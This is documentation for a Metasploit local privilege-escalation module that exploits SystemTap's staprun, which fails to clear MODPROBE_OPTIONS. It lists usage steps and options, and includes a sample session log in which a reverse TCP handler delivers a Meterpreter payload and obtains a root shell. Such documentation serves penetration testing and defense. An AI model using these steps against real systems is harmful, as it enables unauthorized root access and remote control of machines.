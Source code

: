 ## Description

  This module attempts to gain root privileges by exploiting a
  vulnerability in the `staprun` executable included with SystemTap
  version 1.3.

  The `staprun` executable does not clear environment variables prior to
  executing `modprobe`, allowing an arbitrary configuration file to be
  specified in the `MODPROBE_OPTIONS` environment variable, resulting
  in arbitrary command execution with root privileges.


## Vulnerable Application

  This module has been tested successfully on:

  * systemtap 1.2-1.fc13-i686 on Fedora 13 (i686)
  * systemtap 1.1-3.el5 on RHEL 5.5 (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/systemtap_modprobe_options_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **STAPRUN_PATH**

  Path to staprun executable (default: `/usr/bin/staprun`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf5 > use exploit/linux/local/systemtap_modprobe_options_priv_esc 
  msf5 exploit(linux/local/systemtap_modprobe_options_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/systemtap_modprobe_options_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/systemtap_modprobe_options_priv_esc) > run
  
  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] /usr/bin/staprun is executable
  [+] /usr/bin/staprun is setuid
  [*] Writing '/tmp/.rX9IoM53YEb92' (207 bytes) ...
  [*] Writing '/tmp/.rX9IoM53YEb92.conf' (23 bytes) ...
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.202
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.202:52074) at 2019-04-18 12:50:56 -0400
  [+] Deleted /tmp/.rX9IoM53YEb92
  [+] Deleted /tmp/.rX9IoM53YEb92.conf
  ERROR: Unable to canonicalize path "/lib/modules/2.6.18-194.el5/systemtap/As5A2hFpvQ2L.ko": No such file or directory
  Retrying, after attempted removal of module As5A2hFpvQ2L (rc -1)
  ERROR: Unable to canonicalize path "/lib/modules/2.6.18-194.el5/systemtap/As5A2hFpvQ2L.ko": No such file or directory
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo 
  Computer     : localhost.localdomain
  OS           : Red Hat Enterprise Linux 5 (Linux 2.6.18-194.el5)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

